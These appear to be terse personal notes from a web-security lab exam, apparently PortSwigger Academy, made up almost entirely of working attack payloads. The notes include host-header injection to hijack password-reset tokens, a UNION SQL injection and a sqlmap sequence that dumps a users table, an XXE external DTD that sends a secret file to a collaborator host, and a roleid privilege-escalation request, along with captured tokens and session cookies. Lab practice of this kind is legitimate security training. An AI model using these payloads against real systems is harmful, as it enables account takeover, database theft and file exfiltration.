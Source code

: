 # extra 2  

## 1 - 1  

>Forgot password?

>host headers  

```
X-Host: EXPLOIT.com
X-Forwarded-Server: EXPLOIT.com
X-Forwarded-For: EXPLOIT.com
```  

>log  

```
/forgot_password?temp-forgot-password-token=y0x5HxxbQGl6EGL5L11e8jrvRqjO4qQ5
```

## 1 - 2  

>Advanced search

>SQL: Injection with SQLMAP exploit 

```
/filteredsearch?lookup='+UNION+SELECT+'abc'+--&organizeby=DATE&journalist=
```



>SQLMAP  
 
```
https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=x
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL --dbs
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL -D public --tables
```  

```
sqlmap -v -u 'https://TARGET.NET/filteredsearch?lookup=x&organizeby=DATE&journalist=&cachebust=1656138093.57' -p "lookup" --batch --cookie="_lab=46%7cMCwCFDvhZu3NmSkocq341QWncV743o7oAhRVy%2fBaZXa0G7T6taADrF%2foqS%2fSemjTgckosrUOYPxEqcygpvHC2AHJ0Zg6KirfotNJLfF96pLnZGYaMu9XcednYxBwRrWf9w%2b7uOJ90fvpY4AT5dK6OnDFj9SOtZ1364YhnCOB11mk0qY%3d; session=6lgfjR7dN8rxS1W1zEAPFipLLdI7FB5G" --random-agent --level=2 --risk=2 --dbms=PostgreSQL -D public -T users --dump
```  

## 1 - 3  

>XXE add users  

>SERVER exploit.dtd  
  
```
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://COLLABORATOR.com/?x=%file;'>">
%eval;
%exfil;
```  

>XML File Upload user_import  


```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE users [<!ENTITY % xxe SYSTEM "https://exploit-0aaa001b0439377fc0746bbe014200d6.web-security-academy.net/exploit.dtd"> %xxe;]>
<users>
    <user>
        <username>3421xxe3421</username>
        <email>14@23xxe</email>
    </user>    
</users>
```  

>Internal Server Error - XML parsing error - Ignore message response and check the Burp Collaboration Server HTTP
					
## 2 - 1  

>Forgot password?  

```
X-Forwarded-Host: b4g0j1ujjvziwcbt050afzkqhhnab1zu0iq5gt5.oastify.com
X-Host: b4g0j1ujjvziwcbt050afzkqhhnab1zu0iq5gt5.oastify.com
X-Forwarded-Server: b4g0j1ujjvziwcbt050afzkqhhnab1zu0iq5gt5.oastify.com
```  

>EXPLOIt SERVER LOGS  

```
/new_password?temp-forgot-password-token=DZX6O8ra9emPGW8pet9msLaJSceXinFt
```


## 2 - 2  

>update email  

>ACCESS CONTROL  roleID: 42  

>INTRUDER run through roleID value numbers

```
{
	"csrf":"LfjLSEtL7kWqaJN6nYJ14GStmeMQUz3T",
	"email":"Carlos@app2.test7",
	"roleid": 42
}
```  

## 2 -3  


>FILE Upload XML

>XML parsing error  

